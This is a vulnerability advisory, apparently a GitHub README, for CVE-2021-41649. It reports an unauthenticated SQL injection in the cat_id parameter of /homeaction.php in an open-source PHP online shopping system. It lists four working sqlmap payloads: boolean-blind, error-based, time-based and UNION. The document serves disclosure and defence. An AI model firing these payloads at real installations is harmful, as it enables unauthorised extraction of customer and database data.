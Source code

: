 # CVE-2021-41649

CVE-2021-41649 SQL Injection in online-shopping-system

The online-shopping-system is vulnerable to un-authenticated error/boolean-based blind & error based SQL Injection attacks.  <br/><br/>
The cat_id parameter on the /homeaction.php page does not sanitize the user input, an attacker can extract sensisitive data from the underlying MySQL Database.  <br/><br/> 

## Link To Application
[online-shopping-system](https://awesomeopensource.com/project/PuneethReddyHC/online-shopping-system)

## Affected Components & Parameter
URL: **/homeaction.php**  
PARAMETER: **cat_id**<br/><br/>

## Poc's

### SQLMAP PAYLOADS<br/>
### cat_id parameter on the /homeaction.php page
Parameter: cat_id (POST Request)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: `cat_id=4' AND 9760=9760 AND 'ZCfc'='ZCfc&get_seleted_Category=1`

Type: error-based
Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
Payload: `cat_id=4' AND (SELECT 4034 FROM(SELECT COUNT(*),CONCAT(0x71707a7171,(SELECT (ELT(4034=4034,1))),0x71787a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'sGIO'='sGIO&get_seleted_Category=1`

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: `cat_id=4' AND (SELECT 9762 FROM (SELECT(SLEEP(5)))PAcf) AND 'hpHO'='hpHO&get_seleted_Category=1`

Type: UNION query
Title: Generic UNION query (NULL) - 10 columns
Payload: `cat_id=4' UNION ALL SELECT CONCAT(0x71707a7171,0x746e4d4b5a706566596771585179566943487446575673515244507a52507345694d6b5a754d7049,0x71787a7671),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&get_seleted_Category=1`</br></br>

### If the POC Image is unclear, please click on the GIF which will load in a better resolution.

![ POC - proId ](https://github.com/MobiusBinary/F2/blob/main/online-shopping-systemcatID.gif) 


## Discovered by
Jason Colyvas  
[MOBIUSBINARY](https://mobiusbinary.com)  
September 21st, 2021
